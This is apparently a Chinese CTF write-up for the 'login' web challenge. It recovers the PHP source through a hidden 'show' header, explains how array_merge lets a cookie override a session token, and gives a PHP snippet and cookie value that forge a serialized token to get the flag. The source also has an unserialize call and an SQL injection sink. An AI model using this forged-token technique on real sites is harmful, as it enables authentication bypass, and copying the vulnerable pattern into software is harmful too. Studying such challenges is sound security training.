 ```yaml
---
title: login
date: 2018-03-16 00:00:03
categories:
- CTF/Web
tags: 百度杯十月 php反序列化 php黑魔法
--- 
```


## 注释以及响应头

在登录页面注释中发现如下，猜测为用户名密码，登录成功
```
<!--  test1 test1  -->
```

在响应头中发现show字段`show: 0`，于是设置请求头`show: 1`，得到源码：

```php

<?php
	include 'common.php';
	$requset = array_merge($_GET, $_POST, $_SESSION, $_COOKIE);
	class db
	{
		public $where;
		function __wakeup()
		{
			if(!empty($this->where))
			{
				$this->select($this->where);
			}
		}

		function select($where)
		{
			$sql = mysql_query('select * from user where '.$where);
			return @mysql_fetch_array($sql);
		}
	}

	if(isset($requset['token']))
	{
		$login = unserialize(gzuncompress(base64_decode($requset['token'])));
		$db = new db();
		$row = $db->select('user=\''.mysql_real_escape_string($login['user']).'\'');
		if($login['user'] === 'ichunqiu')
		{
			echo $flag;
		}else if($row['pass'] !== $login['pass']){
			echo 'unserialize injection!!';
		}else{
			echo "(╯‵□′)╯︵┴─┴";
		}
	}else{
		header('Location: index.php?error=1');
	}

?>

```

## 分析源码

> 并没有考到classdb的反序列化，那里应该是反序列化和注入联合考察

- 如果`$login['user'] === 'ichunqiu';`即可输出flag
- `$login`来自`$requset['token']`
- `$requset`来自`array_merge($_GET, $_POST, $_SESSION, $_COOKIE)`
- 显然在我们的输入中没有发现`token`，那么`token`一定在`session`里
- 于是我们可以在`cookie`设置`token`字段，当使用`array_merge()`给`$requset`便可覆盖`session`中的值

```php

<?php
$login['user'] = 'ichunqiu';
echo base64_encode(gzcompress(serialize($login)));
?>

```

在cookie中添加：`token=eJxLtDK0qi62MrFSKi1OLVKyLraysFLKTM4ozSvMLFWyrgUAo4oKXA==;`即可


